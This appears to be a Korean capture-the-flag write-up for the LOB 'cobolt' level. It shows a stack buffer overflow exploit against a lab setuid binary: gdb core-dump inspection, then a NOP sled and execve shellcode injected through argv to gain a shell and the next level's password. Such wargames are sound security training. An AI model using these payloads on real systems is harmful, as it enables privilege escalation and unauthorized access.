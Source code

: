 # LOB - gremlin

이전 문제인 gate에서 구한 gremlin과 PW인 hello bof world를 통해 들어간다.



ID : gremlin

PW : hello bof world

![1567942255396](https://user-images.githubusercontent.com/52530785/64917331-3ab7cb00-d7ca-11e9-96d1-1281cc815637.png)



파일 목록을 보면

![1567942344322](https://user-images.githubusercontent.com/52530785/64917332-3ab7cb00-d7ca-11e9-8e82-665200d96700.png)

cobolt와 cobolt의 소스가 들어있다.



```c
vi cobolt.c 를 통해 소스를 확인하면
```

![1567942384266](https://user-images.githubusercontent.com/52530785/64917333-3b506180-d7ca-11e9-8e0b-12e5fa730c4f.png)

gate와 전체적인 내용은 같지만 이번엔 buffer 크기가 16 byte이다.



```c
mkdir tmp
cp cobolt tmp/	명령어를 통해 일단 파일을 복사한다.
```



tmp 디렉터리에서

```c
buffer의 크기는 16 byte
SFP 크기는 4 byte이므로

./cobolt `python -c 'print "\x90"*20+"\x61\x61\x61\x61"'`
을 해주면 segmentation fault가 뜬다.
```

![1567943593663](https://user-images.githubusercontent.com/52530785/64917334-3b506180-d7ca-11e9-9dff-40f3575849d8.png))



```c
gdb -c core 명령어를 통해 들어가본다.
```

![1567943607752](https://user-images.githubusercontent.com/52530785/64917335-3b506180-d7ca-11e9-93be-aaae6ed42103.png)



RET 에 들어간

0x61616161 가 뭐냐고 물어보고 있다. -> eip에 들어가 있을 것이다.

![1567943650184](https://user-images.githubusercontent.com/52530785/64917336-3be8f800-d7ca-11e9-8d5b-b0619acf33ad.png)



일단 \x90 값이 어디에 들어갔는지 보기위해 

```c
x/100wx $esp+300	명령어를 사용한다.
```

![1567943764457](https://user-images.githubusercontent.com/52530785/64917337-3be8f800-d7ca-11e9-8118-659002d16c51.png)

위와 같이 \x90이 20개 들어가고, RET에 \x61616161 이 들어간 것을 볼 수 있다.



---

argv를 2개 주었다.

```c
./cobolt `python -c 'print "b"*20+"\x61\x61\x61\x61"'` `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

![1567947455469](https://user-images.githubusercontent.com/52530785/64917340-3be8f800-d7ca-11e9-9a4f-9b58a4a99805.png)



```c
gdb -c core	명령어를 통해 core를 확인한다.
```

![1567947401705](https://user-images.githubusercontent.com/52530785/64917339-3be8f800-d7ca-11e9-8efc-4304c84bf785.png)



RET가 0x61616161 이므로 저 주소가 뭔지 묻고 있다.

```c
x/100wx $esp+300	명령어를 통해 보면
```

![1567947803636](https://user-images.githubusercontent.com/52530785/64917341-3c818e80-d7ca-11e9-99de-6f9e0285b2dc.png)

argv 첫번째 인자가 나오고 Null 값이 들어간 후 두번째 인자가 들어간다.



두번째 인자에 쉘코드가 들어가 있으므로 첫번째 인자의 RET 부분에 두번째 인자 부분에서 쉘코드 앞에 있는 Nop 값이 있는 부분 주소를 적는다.

0xbffffbcc 를 선택했다.

```c
./cobolt `python -c 'print "b"*20+"\xcc\xfb\xff\xbf"'` `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```



위의 POC를 실행하면

![1567948049560](https://user-images.githubusercontent.com/52530785/64917342-3c818e80-d7ca-11e9-8601-663b784cf58e.png)

쉘이 뜬다.

하지만 이 파일은 tmp에 내가 복사한 파일이므로 gremlin 밖에 뜨지 않는다.



main 디렉터리로 돌아와서

POC를 실행하면

![1567948099912](https://user-images.githubusercontent.com/52530785/64917343-3c818e80-d7ca-11e9-893d-f7b07d6d1222.png)

cobolt의 권한이 들어오고,

my-pass를 통해 cobolt의 password를 얻을 수 있다.

